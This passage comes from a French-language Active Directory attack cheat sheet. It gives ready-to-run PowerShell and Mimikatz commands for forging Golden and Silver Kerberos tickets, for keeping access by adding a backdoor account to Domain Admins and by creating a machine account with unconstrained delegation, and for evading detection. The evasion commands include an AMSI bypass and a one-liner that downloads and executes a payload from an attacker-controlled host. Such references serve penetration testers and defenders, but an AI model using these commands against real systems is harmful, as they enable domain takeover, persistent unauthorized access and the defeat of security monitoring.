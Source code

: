     # Variables: $Domain, $DomainSID, $KrbTgtHash, $UserToImpersonate, $UserID (optionnel, 500 pour admin)
    Invoke-Mimikatz -Command '"kerberos::golden /domain:<DOMAINE.LOCAL> /sid:<SID_DOMAINE> /rc4:<HASH_NTLM_KRBTGT> /user:FakeAdmin /id:500 /ptt"'
    # /ptt : Injecte le ticket dans la session actuelle

    # Silver Ticket (accès à un service spécifique sur une machine)
    # Variables: $Domain, $DomainSID, $ServiceAccountHash, $UserToImpersonate, $TargetServerFQDN, $ServiceSPN (e.g., cifs, http, host)
    Invoke-Mimikatz -Command '"kerberos::golden /domain:<DOMAINE.LOCAL> /sid:<SID_DOMAINE> /rc4:<HASH_NTLM_COMPTE_SERVICE> /user:FakeAdmin /service:<SERVICE> /target:<SERVEUR.DOMAINE.LOCAL> /ptt"'
    # Exemple service: cifs, target: dc01.domaine.local
    ```

### 4. Persistance
*   **Objectif :** Maintenir l'accès après compromission.
*   **Quelques Techniques :**
    *   **Ajout aux groupes privilégiés :**
        ```powershell
        Add-DomainGroupMember -Identity 'Domain Admins' -Members 'utilisateur_backdoor'
        ```
    *   **Golden/Silver Tickets (déjà mentionné).**
    *   **ACLs sur objets AD :** Donner des droits DCSync à un compte contrôlé.
    *   **Comptes machine avec délégation :**
        ```powershell
        # Créer un compte machine
        New-MachineAccount -MachineAccount "PERSIST$" -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
        # Configurer délégation (exemple: non contrainte, risqué)
        Set-ADComputer -Identity "PERSIST$" -TrustedForDelegation $true
        ```
    *   **Scheduled Tasks, services malveillants, WMI event subscriptions, etc.** (techniques de persistance Windows classiques).

### 5. Évasion des Détections (Considérations)
*   **Objectif :** Minimiser les traces et éviter la détection par les EDR/SIEM.
*   **Quelques Techniques :**
    *   **Contournement AMSI (Anti-Malware Scan Interface) pour PowerShell :**
        ```powershell
        # Diverses méthodes existent, souvent obfusquées. Exemple simple (peut être détecté) :
        [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
        ```
    *   **Exécution en mémoire (évite d'écrire sur le disque) :**
        ```powershell
        IEX (New-Object Net.WebClient).DownloadString('http://<IP_ATTAQUANT>/payload.ps1')
        ```
    *   **Utilisation de canaux de communication alternatifs (C2) :** DNS, ICMP, DoH.